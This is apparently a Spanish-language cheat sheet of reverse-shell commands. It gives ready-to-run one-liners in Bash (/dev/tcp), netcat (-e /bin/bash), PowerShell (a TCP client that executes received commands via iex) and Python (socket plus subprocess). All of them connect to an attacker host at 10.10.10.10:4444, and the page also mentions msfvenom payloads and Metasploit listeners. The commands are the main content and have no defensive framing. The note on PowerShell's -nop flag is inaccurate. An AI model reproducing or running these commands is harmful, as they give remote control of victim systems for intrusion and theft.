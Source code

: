 ### Explicación:
- **msfvenom**: Genera un payload que, cuando se ejecuta en el sistema víctima, abrirá una conexión de shell inverso al host atacante.
- **Metasploit Framework**: Usado para gestionar y ejecutar los exploits. Debes configurar un listener y esperar la conexión del payload generado.

## Bash Reverse Shell
En sistemas basados en Unix/Linux, es posible ejecutar un reverse shell usando simplemente Bash. Aquí algunos ejemplos:

| **Comando**                              | **Descripción**                                                     |
|------------------------------------------|---------------------------------------------------------------------|
| `bash -i >& /dev/tcp/10.10.10.10/4444 0>&1` | Reverse shell utilizando Bash, conecta al atacante en `10.10.10.10` y al puerto `4444`. |
| `nc -e /bin/bash 10.10.10.10 4444`       | Similar al anterior, pero usando `nc` para iniciar la conexión.      |

### Explicación:
- **Bash**: Utiliza redirección para establecer una conexión con el host atacante.
- **/dev/tcp**: Es una forma especial en Linux para crear conexiones de red directamente desde Bash.

## Powershell Reverse Shell

En sistemas Windows, se puede usar PowerShell para obtener un reverse shell de manera bastante discreta:

| **Comando**                                                                                                                                                                                                 |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object Text.Encoding).GetString($bytes, 0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush()}"` |

### Explicación:
- **Powershell**: Utiliza las capacidades de red de PowerShell para conectarse al host atacante y ejecutar comandos en la máquina víctima.
- **-nop**: Deshabilita la política de ejecución de scripts, permitiendo que el comando se ejecute sin restricciones.

## Reverse Shell en Python
También es posible crear un reverse shell utilizando Python, muy útil si Python está disponible en el sistema:

| **Comando**                                                                                     | 
|-------------------------------------------------------------------------------------------------|
| `python -c 'import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.10.10.10",4444)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); p=subprocess.call(["/bin/sh", "-i"]);'` | Reverse shell en Python que conecta al atacante en `10.10.10.10` en el puerto `4444`. |

### Explicación:
- **Python**: Usa `socket` para establecer la conexión y `subprocess` para ejecutar un shell en la máquina víctima.
